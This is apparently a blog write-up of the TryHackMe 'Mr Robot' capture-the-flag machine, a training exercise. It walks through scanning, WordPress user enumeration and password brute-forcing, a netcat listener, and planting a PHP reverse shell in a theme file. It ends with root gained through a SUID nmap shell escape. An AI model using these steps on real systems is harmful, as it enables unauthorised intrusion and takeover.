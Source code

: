 ```yaml
---
title: "Writeup for Mr Robot CTF on THM"
classes: wide
header:  
  teaser: /assets/images/posts/writeups/mr_robot.jpg
  #overlay_image: /assets/images/main/header3.jpg
  overlay_filter: 0.5
ribbon: Firebrick
excerpt: "TryHackMe Mr Robot CTF is inspired by the popular TV series, this machine offers a thrilling challenge that will test your skills in web exploitation, privilege escalation, and more. I'll take you step-by-step through the process of hacking into the Mr Robot machine, uncovering hidden vulnerabilities, and ultimately capturing the flags."
description: "Walkthrough on Mr Robot CTF machine from TryHackMe"
categories:
  - writeups
tags:
  - mrrobot
  - THM
  - CTF
  - privesc
  - witeup
  - TryHackMe
toc: false
---
```

# Mr Robot CTF

## Information gathering

### Enumeration

#### nmap

Command:
```sh
nmap -sC -sV [machineIp]
```

Results:
```sh
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache
443/tcp open   ssl/http Apache httpd
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
|_http-server-header: Apache

```
#### ffuf

Command:
```sh
ffuf -w /usr/share/wordlists/dirb/common.txt -u http://[machineIp]/FUZZ 
```

Results:
```sh
.htpasswd               [Status: 403, Size: 218, Words: 16, Lines: 10, Duration: 57ms]
.hta                    [Status: 403, Size: 213, Words: 16, Lines: 10, Duration: 61ms]
.htaccess               [Status: 403, Size: 218, Words: 16, Lines: 10, Duration: 61ms]
                        [Status: 200, Size: 1188, Words: 189, Lines: 31, Duration: 90ms]
0                       [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 783ms]
admin                   [Status: 301, Size: 235, Words: 14, Lines: 8, Duration: 51ms]
audio                   [Status: 301, Size: 235, Words: 14, Lines: 8, Duration: 52ms]
atom                    [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 767ms]
blog                    [Status: 301, Size: 234, Words: 14, Lines: 8, Duration: 51ms]
css                     [Status: 301, Size: 233, Words: 14, Lines: 8, Duration: 51ms]
dashboard               [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 831ms]
favicon.ico             [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 830ms]
feed                    [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 834ms]
images                  [Status: 301, Size: 236, Words: 14, Lines: 8, Duration: 51ms]
image                   [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 866ms]
index.html              [Status: 200, Size: 1188, Words: 189, Lines: 31, Duration: 70ms]
Image                   [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 893ms]
index.php               [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 833ms]
intro                   [Status: 200, Size: 516314, Words: 2076, Lines: 2028, Duration: 59ms]
js                      [Status: 301, Size: 232, Words: 14, Lines: 8, Duration: 54ms]
license                 [Status: 200, Size: 309, Words: 25, Lines: 157, Duration: 79ms]
login                   [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 808ms]
page1                   [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 788ms]
phpmyadmin              [Status: 403, Size: 94, Words: 14, Lines: 1, Duration: 59ms]
readme                  [Status: 200, Size: 64, Words: 14, Lines: 2, Duration: 53ms]
rdf                     [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 816ms]
robots                  [Status: 200, Size: 41, Words: 2, Lines: 4, Duration: 60ms]
robots.txt              [Status: 200, Size: 41, Words: 2, Lines: 4, Duration: 52ms]
rss                     [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 798ms]
rss2                    [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 791ms]
sitemap                 [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 52ms]
sitemap.xml             [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 52ms]
video                   [Status: 301, Size: 235, Words: 14, Lines: 8, Duration: 57ms]
wp-admin                [Status: 301, Size: 238, Words: 14, Lines: 8, Duration: 53ms]
wp-content              [Status: 301, Size: 240, Words: 14, Lines: 8, Duration: 57ms]
wp-includes             [Status: 301, Size: 241, Words: 14, Lines: 8, Duration: 53ms]
wp-config               [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 858ms]
wp-cron                 [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 867ms]
wp-links-opml           [Status: 200, Size: 227, Words: 13, Lines: 11, Duration: 852ms]
wp-load                 [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 829ms]
wp-login                [Status: 200, Size: 2613, Words: 115, Lines: 53, Duration: 873ms]
wp-settings             [Status: 500, Size: 0, Words: 1, Lines: 1, Duration: 777ms]
wp-mail                 [Status: 500, Size: 3064, Words: 212, Lines: 110, Duration: 951ms]
wp-signup               [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 816ms]
xmlrpc                  [Status: 405, Size: 42, Words: 6, Lines: 1, Duration: 898ms]
xmlrpc.php              [Status: 405, Size: 42, Words: 6, Lines: 1, Duration: 837ms]
:: Progress: [4614/4614] :: Job [1/1] :: 27 req/sec :: Duration: [0:02:38] :: Errors: 0 ::
```

## Exploitation

### Foothold
1. Check content of robots.txt file found in file enumeration
2. In the robots there is a file called http://[machineIp]/key-1-of-3.txt containing **Key1** (FIRST KEY IN THE CTF)
3. Also, in location http://[machineIp]/fsocity.dic is a dictionary, download it locally for later
4. Check the installed wordpress instance using wpscan:
```sh
wpscan --url http://[machineIp]/0/ --wp-content-dir wp-content -e vp,vt,cb,u,dbe,m
```
5. Scanning the wordpress we found two users: **elliot**, **mich05654**
6. Brute force with wpscan for user **mich05654**:
```sh
wpscan --url http://[machineIp]/0/ --wp-content-dir wp-content -U mich05654 -P /home/kali/Downloads/fsocity.dic 
```
7. Found password for mich05654: *Dylan_2791*
8. Login with found user and password on the http://[machineIp]/wp-login.php
9. This user has limited access in wordpress
10. Since bruteforcing with wpscan is realy slow we can use BurpSuite or Hydra to bruteforce for user *elliot*
11. Check for dictionary downloaded; a lot of lines are repeating - clean the dictionary first
12. Checking the dictionary again I saw that a couple of more than 11k passwords are repeating except last few lines:
```txt
ER28-0652
psychedelic
iamalearn
uHack
imhack
abcdefghijklmno
abcdEfghijklmnop
abcdefghijklmnopq
c3fcd3d76192e4007dfb496cca67e13b
ABCDEFGHIJKLMNOPQRSTUVWXYZ
```
13. Bruteforcing with this small list I found elliot's password: *ER28-0652*
14. Start a local listener with netcat `nc -lvnp 4455`
15. Login with elliot on wordpress and edit theme (Apearance >> Editor) replace the content of file (header.php) with a php rev shell (PentestMonkey.php)
16. Re-visit blog to load the content of header.php, the reverse shell should run

#### Data exfiltration
1. We are logged as user "daemon" on Linux machine and the second flag is own by user "robot", for this a lateral movement will be needed
2. Check for SUID `find / -perm /4000 2> /dev/null`
3. Found nmap instance with SUID set `-rwsr-xr-x 1 root root 504736 Nov 13  2015 /usr/local/bin/nmap`

### Privilege escalation
1. Check https://gtfobins.github.io/gtfobins/nmap/ for how you can spawn a shell using nmap:
```sh
nmap --interactive
nmap> !sh
```
2. Voila! You are root :)

#### Data exfiltration
1. Read content of /home/robot/key-2-of-3.txt for **Key2** (SECOND KEY IN THE CTF)
2. Read content of /root/key-3-of-3.txt for **Key3** (THIRD KEY IN THE CTF)